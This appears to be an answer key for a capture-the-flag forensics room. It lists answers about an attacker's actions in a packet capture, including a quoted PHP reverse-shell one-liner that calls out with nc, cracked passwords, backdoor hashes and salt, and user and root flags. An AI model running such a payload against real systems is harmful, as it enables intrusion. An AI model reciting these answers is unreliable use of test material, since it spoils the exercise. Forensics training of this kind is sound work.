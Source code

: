 Task 1:

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

What was the URL of the page they used to upload a reverse shell?
/development/
What payload did the attacker use to gain access?

&lt;?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
What password did the attacker use to privesc?

whenevernoteartinstant
How did the attacker establish persistence?

https://github.com/NinjaJc01/ssh-backdoor
Using the fasttrack wordlist, how many of the system passwords were crackable?

4

-----------------------------------------------------------------------------------

Task 2:

Now that you've found the code for the backdoor, it's time to analyse it.

What's the default hash for the backdoor?
bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
What's the hardcoded salt for the backdoor?

1c362db832f3f864c8c2fe05f2002a05
What was the hash that the attacker used? - go back to the PCAP for this!

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
Crack the hash using rockyou and a cracking tool of your choice. What's the password?

november16

-----------------------------------------------------------------------------------

Task 3:

The attacker defaced the website. What message did they leave as a heading?
'''
H4ck3d by CooctusClan
'''

What's the user flag? thm{d119b4fa8c497ddb0525f7ad200e6567}

What's the root flag? thm{d53b2684f169360bb9606c333873144d}











